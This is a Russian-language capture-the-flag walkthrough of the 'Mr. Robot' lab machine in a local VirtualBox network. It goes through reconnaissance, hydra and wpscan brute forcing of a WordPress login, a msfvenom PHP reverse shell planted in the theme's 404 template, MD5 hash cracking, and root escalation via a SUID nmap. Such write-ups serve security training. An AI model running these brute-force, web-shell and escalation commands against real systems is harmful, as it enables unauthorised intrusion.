# 🤖 Mr. Robot

**Вектор:** Info Disclosure ➔ WordPress Brute-force ➔ SUID Nmap
*   **OS:** 🐧 Linux (Ubuntu)
*   **Сложность:** 🟢 Легкая
*   **Инструменты:** 🧰 `netdiscover` `nmap` `gobuster` `hydra` `wpscan` `msfvenom` `msfconsole`
*   **Ключевые навыки:** 📊 Работа со словарями, аудит SUID-битов, повышение привилегий через GTFOBins.

## 🔍 Разведка

Пентестить будем с Kali Linux, наш ip-адрес: **10.0.2.8**. Используем гипервизор VirtualBox. Теперь ищем цель в локальной сети:

```bash
netdiscover -r 10.0.2.0/24
```



Наша цель: **10.0.2.11**, так как DHCP раздаёт ip-адреса по-порядку.

## 👁️‍🗨️ Сканирование

Просканируем top 1000 портов, применяя дефолтные скрипты:

```bash
nmap -sS -Pn -sVC -T4 10.0.2.11
```


Так, ssh закрыт. Сервер работает на Apache и 80 порт открыт, смотрим что там. Впринципе там анимированный терминал, изображения и фрагменты фильма Mr. Robot - не очень полезно.

## 🌐 Веб-анализ

Давайте посмотрим, есть ли папки или файлы, которые нам не показывают:

```bash
gobuster dir --url http://10.0.2.11 --wordlist /usr/share/wordlists/dirb/common.txt
```



Ага, robots.txt с кодом 200. Заходим на него:



Что мы видим? Файл с расширением `.dic`, похоже это словарь, и ещё есть `key-1-of-3.txt`. Значит это первый флаг из трёх. Зайдём на словарь:



Если немного пролистать словарь, можно заметить почти похожие слова. Не будем тратить время на сравнивание слов, а просто применим команду `sort`. Скачиваем два файлика:

```bash
wget http://10.0.2.11/key-1-of-3.txt http://10.0.2.11/fsocity.dic
```



Забираем первый 🚩 флаг:

```bash
cat key-1-of-3.txt
```



Если отсортировать словарь `sort fsocity.dic`, то можно заметить очень много повторяющихся слов. Давайте уберём их:

```bash
sort -u fsocity.dic > clean_fsocity.txt
```



Теперь у нас словарь только с уникальными словами. Скорее всего, нам нужно будет делать перебор по этому словарю.

## 💀 Эксплуатация

Заметим, что при фаззинге у нас ещё засветился `/login`, который перенаправляет нас на `/wp-login.php`. Так что переходим туда. Нас встречает окно логина, пробуем вбить `admin/admin`:



"Ошибка: Неверный логин". Ага, то есть мы можем сейчас перебирать логин, пока он нам не скажет: **Неверный пароль**. От такого перебора должна быть такая ошибка: **Неверный логин или пароль**. Давайте посмотрим из чего у нас состоит запрос:



Хорошо, теперь воспользуемся инструментом `hydra` и нашим отсортированным словариком, вбиваем любой пароль, например `12345`:

```bash
hydra -L clean_fsocity.txt -p 12345 10.0.2.11 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```



После небольшого ожидания видим, что подходит сразу три логина. Дальше по этому же словарю переберём пароль. Можно так же с помощью `hydra`, но не будем останавливаться только на этом. Окно логина показало, что это сайт WordPress. Воспользуемся инструментом `wpscan`, логин берём любой из трёх:

```bash
wpscan --url 10.0.2.11 --wp-content-dir /wp-login.php --passwords clean_fsocity.txt -U elliot
```


Оп! Вот и пароль. Теперь заходим с валидной учёткой:



Отлично! Нас здесь интересует вкладка **Appearance**. С её помощью можно настраивать меню, виджеты,редактировать файлы и темы.



Справа выбираем **404 Template** (если нам не очень хочется привлекать внимание). Вот именно сюда мы сейчас вставим наш `reverse shell`. Давайте его сгенерируем:

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.0.2.8 lport=4444 -f raw > shell.php
```



Копируем содержимое `shell.php` и вставляем вместо кода, который здесь был. И не забудем убрать вначале `/*`:



Теперь подготовим слушатель:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.0.2.8
set LPORT 4444
run
```


Переходим на несуществующую страницу для того, чтобы выполнился наш `reverse shell`:



## 🛠️ Постэксплуатация

После получение *meterpreter*, идём в домашнюю директорию. Там есть папочка *robot*, заходим туда и там есть два файлика `key-2-of-3.txt` и `password.raw-md5`. Первый может только читать его же владелец, так что давайте пока посмотрим что во втором:

```bash
cat password.raw-md5
```



И у нас здесь MD5-хэш пароля пользователя robot. А MD5 уязвим к коллизиям, так что давайте взломаем его. Воспользуемся, например, онлайн сервисом **CrackStudio**:



Пароль - весь английский алфавит. Стабилизируем шелл и переключаемся на пользователя robot:

```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
su robot
abcdefghijklmnopqrstuvwxyz
```



Вот теперь мы можем забрать второй 🚩 флаг:

```bash
cat key-2-of-3.txt
```



Остался ещё один флаг, он, наверное, лежит в папке root. Давайте осмотримся:

```bash
id
sudo -l
uname -a
find / -perm -4000 -type f 2>/dev/null
```



Можем конечно поискать что там по ядру, но сначала проверим файлы с SUID-битом.

## 🌋 Эскалация привелегий

Воспользуемся сайтом **gtfobins.org**:



Сейчас поочерёдно вписываем файлы в фильтр и протыкиваем команды. И так дошли до `nmap`:

```bash
nmap --interactive
!/bin/sh
```

Оп! И выпрыгиваем в консоль root. Теперь идём в папочку `/root` и забираем третий 🚩 флаг:

```bash
cd /root
ls
cat key-3-of-3.txt
```


**Status:** ✅ Machine pwned.

## 📑 [Отчёт](./Report.md)